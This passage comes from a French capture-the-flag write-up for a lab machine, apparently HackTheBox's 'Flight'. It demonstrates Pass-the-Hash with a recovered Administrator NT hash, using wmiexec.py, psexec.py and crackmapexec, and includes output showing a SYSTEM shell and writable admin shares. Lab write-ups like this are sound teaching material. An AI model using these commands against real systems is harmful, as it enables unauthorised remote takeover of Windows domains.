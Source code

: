 ### Vérification des accès

Grace à ces hashes collectés, nous pourrons nous reconnecter via l'attaque *Pass The Hash* à distance à la machine en tant qu'administrateur du domaine, sans disposer du mot de passe de cet utilisateur :

### Accès distant

=== "wmiexec.py"
	```shell title="Utilisation du Hash NT récupéré avec wmiexec.py"
	$ wmiexec.py  -hashes :43bbfc530bab76141b12c8446e30c17c -dc-ip $TARGET_IP flight.htb/Administrator@$TARGET_IP whoami
	Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
	
	[*] SMBv3.0 dialect used
	flight\administrator
	```

=== "psexec.py"
	```shell title="Utilisation du Hash NT récupéré avec psexec.py"
	$ psexec.py Administrator@$TARGET_IP -hashes :43bbfc530bab76141b12c8446e30c17c
	Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
	
	[*] Requesting shares on 10.10.11.187.....
	[*] Found writable share ADMIN$
	[*] Uploading file BVTQqKla.exe
	[*] Opening SVCManager on 10.10.11.187.....
	[*] Creating service gxjC on 10.10.11.187.....
	[*] Starting service gxjC.....
	[!] Press help for extra shell commands
	Microsoft Windows [Version 10.0.17763.2989]
	(c) 2018 Microsoft Corporation. All rights reserved.
	
	C:\Windows\system32> whoami
	nt authority\system
	```

=== "crackmapexec.py"
	```shell title="Utilisation du Hash NT récupéré avec crackmapexec"
	└─$ cme smb $TARGET_IP -u Administrator -H 43bbfc530bab76141b12c8446e30c17c --shares | cut -c60-
	      [*] Windows 10.0 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
	      [+] flight.htb\Administrator:43bbfc530bab76141b12c8446e30c17c (Pwn3d!)
	      [+] Enumerated shares
	      Share           Permissions     Remark
	      -----           -----------     ------
	      ADMIN$          READ,WRITE      Remote Admin
	      C$              READ,WRITE      Default share
	      IPC$            READ            Remote IPC
	      NETLOGON        READ,WRITE      Logon server share 
	      Shared          READ            
	      SYSVOL          READ            Logon server share 
	      Users           READ            
	      Web             READ            
	```
